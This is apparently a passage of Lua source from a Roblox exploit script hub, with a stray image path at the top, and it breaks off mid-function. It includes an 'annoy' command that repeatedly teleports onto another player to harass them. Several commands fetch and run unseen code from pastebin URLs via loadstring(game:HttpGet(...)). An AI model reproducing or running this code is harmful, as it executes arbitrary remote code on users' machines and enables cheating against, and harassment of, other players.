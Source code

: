 Follow = false

CreateCMD("annoy",function()
	local p = game:GetService("Players")[Player.Value]
	if p.Character and p.Character:FindFirstChild("Humanoid") then
		if Follow == true then
			Follow = false; return
		else Follow = true end
		while Follow == true do
			game:GetService("Players").LocalPlayer.Character.HumanoidRootPart.CFrame = p.Character.HumanoidRootPart.CFrame
			wait()
		end
	end
end)

CreateCMD("unannoy",function()
Follow = false
end)

CreateScript("goner morph",function()
	loadstring(game:HttpGet("https://pastebin.com/raw/vdR2tPC5",true))()
end)

CreateScript("fart",function()
	loadstring(game:HttpGet("https://pastebin.com/raw/w7WPUzUY",true))()
end)

CreateScript("jeff the killer",function()
	loadstring(game:HttpGet("https://pastebin.com/raw/g3F1YgJB",true))()
end)

CreateScript("epic bike",function()
loadstring(game:HttpGet("https://pastebin.com/raw/2bueKe4L",true))()
end)

CreateScript("explode",function()
loadstring(game:HttpGet("https://pastebin.com/raw/bRZGYEUe",true))()end)

CreateScript("die for your sins",function()
loadstring(game:HttpGet("https://pastebin.com/raw/Hp8D0UyW",true))()
end)

CreateScript("fire",function()
loadstring(game:HttpGet("https://pastebin.com/raw/3ucqpsAW",true))()
end)

CreateScript("baby r6",function()
loadstring(game:HttpGet("https://pastebin.com/raw/AgJJVgvU",true))()
end)


CreateScript("thomas morph",function()
	game.Players:Chat(">hat me 17615406173 ;hat me 17615406173 :hat me 17615406173")
local player = game.Players.LocalPlayer
local character = player.Character or player.CharacterAdded:Wait()
local humanoid = character:WaitForChild("Humanoid")

